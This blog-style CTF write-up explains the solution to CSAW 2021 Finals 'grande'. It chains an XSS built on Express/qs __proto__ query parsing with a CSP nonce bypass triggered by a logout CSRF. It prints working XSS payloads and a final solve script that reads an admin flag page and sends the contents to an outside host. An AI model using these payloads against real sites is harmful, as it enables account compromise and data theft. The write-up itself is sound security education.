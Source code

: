 ```yaml
---
title: CSAW Finals - Grande
description: How does express query parsing work??
---
```


I recently played CSAW CTF 2021 with PPP. I worked with [Anish](https://github.com/asinghani) on a cool challenge, grande, by Itzsn. This was an Express node application which exposed some interesting behavior about Express's query parsing. 

## Overview

There were two steps in the challenge. 

The first was a XSS. This required creating an array-like object for which `Array.isArray(obj) === false`, which can be done with `?next[__proto__]=first&next[__proto__]=second`. 

The second was a CSP bypass. In summary, the nonce got set to `undefined` when the `nonce` cookie is unset but the user session was not null. We could then abuse logout CSRF to force this condition, due to the `SameSite` properties of the cookies. 

<!--more-->

## Approach

### XSS

The first immediate thing I noted was the almost-XSS in the redirect handler. 
```javascript
// slightly condensed version 
express.response.redirect = function(url) {
  if (Array.isArray(url)) return this.status(400).end();

  let relative_url = url;
  if (url.indexOf(base_url) === 0) relative_url = url.slice(base_url.length);

  this.set('Location',relative_url);
  this.statusCode = 302;
  this.send(`<title>Redirecting...</title>
    <p><a href="${url}">Click here if not redirected...</a></p>`);
}

// ...

app.get('/next', (req, res) => {
	res.redirect(req.query.next || '/');
});
```

Specifically, the `${url}` is the `req.query.next` object which is an attacker supplied query paramter -- subject to whatever parsing constraints Express imposes. 

The `Location` header injection seemed very similar to the CRLF attack [I found previously against GitHub](/blog/2021/04/03/github-pages-xss). Thus, I was reasonably confident that in order for Chrome to render the 302 redirect body, the `Location` header needs to be empty or unset. Also, Express doesn't allow CRLF injection -- it maintains an allow-list of header values. Thus, we probably need a different approach from just `Location` header injection. 

Intuitively, many parts of the code seemed suspicious. Why was `.slice` used instead of `.substring`? Probably because `.slice` works for both strings and arrays... But then why is there an `Array.isArray` check? Note that if we could remove this check, an array like
```javascript
[ base_url, '"><script>alert()</script>']
```
would allow us to get XSS. 

This array would satisfy the `.includes` check, and then `.slice` would cause `relative_url == []`. The location header would not be set, and Chrome will render the body. 

The question is: how do we get such an object?

The heart of this challenge is the `__proto__` parsing quirk. I think there are two main observations required. The first is that creating an object like
```javascript
const obj = {
  "__proto__": [ 1, 2, 3 ]
}
```
is an array-like object but is not `Array.isArray`

```
> obj.includes
[Function: includes]
> obj.slice
[Function: slice]
> obj[0]
1
> Array.isArray(obj)
false
```

The second observation requires digging into Express query parsing.

After looking at the Express documentation, we found that Express uses the `qs` library to parse query strings. One cool trick is that you can actually just directly edit the files under `node_modules`. We can confirm the documentation by adding a `console.log` into `node_modules/qs/lib/parse.js`
```javascript
module.exports = function (str, opts) {
    console.log(str, opts);
    var options = normalizeParseOptions(opts);
```

After visiting an endpoint like `/next?next[]=test&&&zzzz`, we can confirm that indeed, our query string is logged. In particular, the query string is passed exactly as in, so we can be reasonably confident that all the parsing logic happens here. 
```
next[]=test&&&zzzz { allowPrototypes: true }
```

One interesting thing to note is Express's default of passing `allowPrototypes=true`. Looking at the `README.md` for `qs`, we come across an interesting warning.

> By default parameters that would overwrite properties on the object prototype are ignored, if you wish to keep the data from those fields either use `plainObjects` as mentioned above, or set `allowPrototypes` to `true` which will allow user input to overwrite those properties. *WARNING* It is generally a bad idea to enable this option as it can cause problems when attempting to use the properties that have been overwritten. Always be careful with this option.

Interesting, so it turns out Express explicitly allows assignment to special properties of objects. Normally, `next[a]=1&next[a]=2` would parse into
```
{
  "next": {
    "a": [1, 2]
  }
}
```

What happens if we replace `a` with `__proto__`? Turns out, it's exactly equivalent to 
```
{
  "next": {
    "__proto__": [1, 2]
  }
}
```

This is exactly the primitive we need! We can use something like `/next?next[__proto__]=https://grande-blog.site&next[__proto__]="><script>alert()</script>` to trigger XSS. Indeed, when trying this payload we get a CSP error indicating the browser attempted to execute our script. 
```
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'nonce-186481b00e4949e5e51af1380a4e68f9fe7057eaaa1892897702a6d228d50463'". Either the 'unsafe-inline' keyword, a hash ('sha256-S8S/VNmXuUuoIR6OhqBqwIiIkuCxXq31hCCHAHnicV8='), or a nonce ('nonce-...') is required to enable inline execution.
```

Now to bypass CSP..

### CSP

The first observation is that `app.generate_nonce` will return `undefined` when the user has a not-null session. This behavior is a bit weird, considering `generate_nonce` returns the actual nonce otherwise. 
```javascript
app.generate_nonce = async function(req, res) {
  if (req.session?.user) return;
```

The second observation is that the CSP middleware will assign the session nonce to `app.generate_nonce` if `req.cookies.nonce === undefined`. 
```javascript
  // CSP middleware
  app.use(async function (req, res, next) {
    let nonce = req.cookies.nonce;
    if (!nonce)
      nonce = await app.generate_nonce(req, res)
```

We can easily confirm this with Chrome's developer tools by deleting the `nonce` cookie and checking the response headers. 
```
Content-Security-Policy: default-src 'none';script-src 'nonce-undefined';style-src 'nonce-undefined';connect-src *;img-src *;
```

Thus, if we could somehow unset the `nonce` cookie while still keeping the user logged in, we could force the nonce to `undefined` and bypass any protections with `<script nonce=undefined>`.

An understanding of how `SameSite` cookies work comes into handy here. The session cookie is set with `sameSite=lax` while the nonce cookie is set with `sameSite=none`. Thus, only the nonce cookie will be passed by the browser when using any of the site's endpoints from a different origin. 

Thus, only the nonce cookie would be set in `req.cookies`. This means that the logout endpoint will only unset the nonce cookie.
```javascript
app.get('/logout', (req, res) => {
  for (let c in req.cookies) {
    res.clearCookie(c);
    // Make sure this works in all cases
    res.clearCookie(c, {
      sameSite:'None', secure:true
    });
  }
  res.redirect(req.query.next || '/');
});
```

From here, we can easily set `nonce=undefined` on our scripts to bypass the CSP.
```javascript
<script nonce=undefined>
alert(location.origin);
</script>
```

## Solve Script

```javascript
fetch("https://grande-blog.site/logout?next=https://google.com", { mode: "no-cors", credentials: "include" }).then(() => {
  location = "https://grande-blog.site/next?next[__proto__]=https://grande-blog.site&next[__proto__]=%22%3E%3Cscript%20nonce=undefined%3E" + encodeURIComponent(`fetch("/admin/my_favorite_flag").then(a => a.text()).then(a => {
  const val = a.indexOf("flag{");
  a = a.slice(val - 10, val + 50);
  location = ("http://robertchen.cc/xxx" + btoa(a))
  });`) + "%3C/script%3E";
});
```
